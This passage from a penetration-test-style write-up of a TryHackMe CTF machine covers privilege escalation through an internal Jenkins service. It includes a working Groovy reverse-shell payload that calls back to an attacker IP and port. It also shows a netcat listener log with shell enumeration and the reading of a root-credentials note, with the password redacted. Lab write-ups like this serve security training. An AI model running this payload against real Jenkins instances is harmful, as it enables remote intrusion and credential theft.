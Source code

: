 **Proof of Concept Code Here:**
```groovy
String host="10.11.93.71";int port=4444;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Privilege Escalation - Authenticated User (Internal Services)

**System Proof Screenshot:** 

**Vulnerability Explanation:** With the reverse shell connection to the internal Jenkins service, [AlphaGing] was further able to enumerate and capture the root credentials of the host machine.

**Vulnerability Fix:** Remove any plain text credentials within systems. Consider employing a secrets/password manager to maintain accountability of passwords securely. Consider disabling root user.

**Severity:** Critical

**Steps to reproduce the attack:**
```bash
┌──(sstephens㉿kali-ppt)-[~/…/Personal_Pentest_Notes/Challenges & CTFs/TryHackme/Internal]
└─$ nc -lvnp 4444                                                                                                                                 
listening on [any] 4444 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.227.173] 52274
whoami
jenkins
ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd /opt
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:<redacted>
```
